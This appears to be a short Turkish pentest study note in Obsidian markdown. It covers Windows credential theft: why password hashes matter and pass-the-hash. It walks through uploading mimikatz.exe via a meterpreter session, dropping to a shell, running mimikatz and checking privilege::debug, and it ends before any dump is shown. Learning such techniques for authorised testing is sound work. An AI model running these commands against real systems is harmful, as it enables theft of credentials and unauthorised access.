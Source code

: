 #### Pentest yaparken bu tavsiye edilmez. Çünkü Şuan orada bir iş yürüyor.

---

### Peki HASH'ler neden bu kadar önemli ?
##### Çünkü hash'leri kırmak eğer parola güçlüyse aylar yıllar alabilir. 
## Pass the hashes attack var bunda kullanılabilir.

---

## Şimdi SIRA MIMIKATZ
#mimikatz 
![[Pasted image 20240207133139.png]]

```
meterpreter> upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
```

![[Pasted image 20240207133505.png]]

## Mimikatz.exe 'yi upload ile karşı tarafın Temp klasörüne yükledik.

---

## meterpreter> shell 
komutuyla Normal CMD shell'e geçtik.

```
.\mimikatz.exe 

```
### Bu komutla çalıştırdık mimikatz'i
### mimikatz # 
##### Bu şekilde mimikatz shell'e donustu
## İlk yapılması gereken yetkimiz var mı bunu kontrol etmek

### privilege::debug 
```
privilege::debug 
```
![[Pasted image 20240207134040.png]]
### Yetkimiz var
